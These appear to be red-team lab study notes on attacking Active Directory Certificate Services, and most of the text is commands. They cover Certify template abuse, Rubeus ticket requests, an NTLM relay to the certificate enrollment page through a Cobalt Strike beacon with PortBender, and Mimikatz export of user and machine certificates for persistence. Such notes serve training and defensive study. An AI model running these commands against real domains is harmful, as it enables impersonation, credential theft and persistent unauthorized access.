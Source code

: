 # ADCS Notes

**Finding Certificate Authorities**

Tools: [Certify](https://github.com/GhostPack/Certify)

Search ADCS in a domain or forest
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas
```

**Misconfigured Certificate Templates**

find vulnerable tickets
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```
key parts to look into
1. the CA name
2. Template Name
3. msPKI-Certificate-Name-Flag
4. pkiextendedkeyusage
5. Enrollment Rights - see who can enroll here, look for groups you are in or if all domain users can

Abusing steps
1. Request a certificate for a user
2. copy and whole certificate and save it as cert.pem on linux
3. use openssl command to convert to pfx format
4. convert cert.pfx into a base64 string for Rubeus
5. make an asktgt req for the user using the cert
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:<user>
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
cat cert.pfx | base64 -w 0
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:<user> /certificate:<base64> /password:pass123 /nowrap
```

**NTLM Relaying to ADCS HTTP Endpoints**

can't relay dc to adcs if running on same dc, but we can relay with a system having unconstrained delegation

steps:
1. portbender on unconstrained device capturing 445->8445
2. reverse port forward to forward traffic hitting port 8445 to the team server on port 445
3. a socks proxy for ntlmrelayx to send traffic back into the network
4. ntlmrelayx pointing to the certfnsh.asp page on the adcs server
5. coerce a system WEB to our machine with the relaying

```
on beacon:
powershell New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow
rportfwd 8445 localhost 445
socks 1080
cd C:\Windows\system32\drivers
upload C:\Tools\PortBender\WinDivert64.sys
  **Then go to Cobalt Strike > Script Manager and load PortBender.cna from C:\Tools\PortBender - this adds a new PortBender command to the console.**
PortBender redirect 445 8445
on attacker:
sudo proxychains ntlmrelayx.py -t https://10.10.122.10/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
on beacon:
execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe 10.10.122.30 10.10.123.102
```

**User and Computer Persistence**

Certs are great persistence since they default last a year regardless of password changes

can grab a users cert by going to their personal cert store, we can do this with Seatbelt
```
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe Certificates
```
or mimikatz
steps:
1. export it and download
2. base64 the pfx file
3. run rubeus with this base64 to obtain a TGT

```
on beacon:
mimikatz crypto::certificates /export
download CURRENT_USER_My_0_Nina Lamb.pfx
on attacker machine:
cat /mnt/c/Users/Attacker/Desktop/CURRENT_USER_My_0_Nina\ Lamb.pfx | base64 -w 0
on beacon:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIINeg[...]IH0A== /password:mimikatz /nowrap
```
if the user doesn't have a certificate we can just request one
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:User
```

**Computer Persistence**

we can do the same with computer accounts
```
mimikatz !crypto::certificates /systemstore:local_machine /export
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-1$ /enctype:aes256 /certificate:<base64> /password:mimikatz /nowrap
```

if requesting machine accounts with certify use the /machine flag
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:Machine /machine
```


